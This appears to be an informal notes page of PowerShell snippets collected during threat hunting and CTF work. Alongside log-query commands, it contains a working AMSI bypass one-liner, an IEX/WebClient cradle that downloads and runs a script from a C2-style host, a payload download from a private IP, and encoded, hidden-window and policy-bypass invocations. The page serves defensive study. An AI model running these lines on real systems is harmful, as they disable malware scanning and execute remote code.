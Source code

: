 ### ran this to see policy... then changed it and didn't document it
```
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted
```

### IEX with encoded blob. looks bad. was bad.
```
powershell -Exec Bypass -Enc JAB... (cut off)
```

### used this to grab a .ps1 script — forgot to check if it's malicious
```
Invoke-WebRequest -Uri http://10.10.10.5/payload.ps1 -OutFile payload.ps1
```

### AMSI bypass string seen in a CTF
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```



### legit user ran this and SIEM flagged it
```
Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command Get-Process"
```


### decoded one line and it ran Invoke-Expression + WebClient... suspicious
```
powershell -Command "IEX (New-Object Net.WebClient).DownloadString('http://weirdc2.xyz/script')"
```
### script block logging was ON but logs got cut off mid-command — why?
```
PowerShell 5.1 + LogSize setting maybe?
```
### looked for obfuscation, found 20 lines with "`n" and "`t" and -Join…
```
Select-String -Path logs.ps1 -Pattern "`n|`t|-Join"
```
### triggered alert on hidden window + no profile + encoded command = 
```
powershell -w hidden -nop -enc [long string]
```
### Word doc spawned PowerShell using macro. didn't catch it at first.
```
WINWORD.EXE → powershell.exe → whoami
```
### looped through PowerShell logs for 2 hours, forgot to save query
```
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104}
```
